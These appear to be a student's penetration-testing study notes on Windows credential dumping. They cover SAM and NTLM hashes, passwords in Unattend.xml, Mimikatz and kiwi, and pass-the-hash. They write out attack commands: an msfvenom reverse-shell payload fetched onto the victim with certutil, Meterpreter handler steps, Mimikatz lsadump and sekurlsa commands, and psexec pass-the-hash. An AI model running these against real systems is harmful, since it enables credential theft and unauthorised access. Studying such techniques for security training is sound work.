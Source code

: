 # Windows Credential Dumping 
### Windows Password Hashes
- stored locally in the SAM (Security Accounts Manager) database
- authentication and verification of user credentials is facilitated by the Local Security Authority(LSA)
- NTLM hashing format
- SAM Database
	- responsible for managing user accounts and passwords
	- cannot be copied while the OS is running
	- Windows NT kernel keeps the SAM file locked
	- SAM hashes can be  dumped from the LSASS process
	- modern versions of windows, SAM DB is encrypted with a syskey
	- Elevated/Administrative privileges are required to access and interact with the LSASS process
- LM 
	- LanMan hashing algorithm
	- was implemented on windows OS
	- does not include salts
	- weak and outdated
- NTLM
	- NTHash
	- from windows vista onward
	- case sensitive
	- does not split the hash into two chunks
	- allows the user of symbols the Unicode characters
	- MD4 algorithm

### Searching for Passwords in Windows Configuration Files
- Unattended Windows Setup utily
- can be found 
	- C:\Windows\Panther\Unattend.xml
	- C:\Windows\Panther\Autounattend.xml
	- passwords stored by base64
- approach example
	- `$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT= -f exe > payload.exe`
	- `$ python -m SimpleHTTPServer 80 - hosting web server`
	- download the payload on the victim computer
	- open cmd
	- `cd Desktot\`
	- `certutil -urlcache -f http://yourip/payload.exe payload.exe`
	- shut down the web server
	- `$ service postgresql start && msfcon`
	- `$ use multi/handler`
	- configure the options
	- `run`
	- execute the payload on target sys
	- `$ sysinfo`
	- `$ cd C:\\`
	- `$ cd Panther`
	- `$ dir`
	- `$ download unattend.xml`
	- decode the password
	- `base64 -d password.txt`
	- `psexec.py Administrator@10.10.10.10`

### Dumping Hashes with Mimikatz
- Mimikatz	
	- Post-exploitation tool
	- extraction of clear-text passwords, hashes and Kerberos tickets from memory
	- from lsass.exe process
	- require elevated privileges to run correctly
- process
	- Nmap scan to find potentially vulnerable services
	- `$ service postgresql start && msfcon`
	- `$ search badblue`
	- `$ use 1`
	- configure options and run
	- `$ getuid`
	- `$ pgrep lasass`
	- `$ migrate`
	- `$ load kiwi` - build-in meterpreter module
	- `$ ?`
	- `$ lsa_dump_sum`
	- `$ lsa_dump_secrets`
	- using mimiktz
		- upload the mimikatz.exe to your target system
		- run mimikatz
		- `$ privilege::debug`
		- if answer was 20 ok, you have the required privileges
		- `$ lsadump::sam`
		- `$ lsadump::secrets`
		- `$ sekurlsa::logonpasswords`
### Pass-The-Hash Attacks
- Exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and using them to authenticate with the target legitimately
- tools
	- Metasploit PsExec module
	- Crackmapexec
- process
	- after gaining the hashes with kiwi
	- you need the LM hash - hashdump - LMhash:NTLMhash
	- `Search psexec`
	- `use 9`
	- `show options LPORT, RHOSTS, SMBUSER, SMBPass`
	- `set target Native\upload`
	- `exploit`
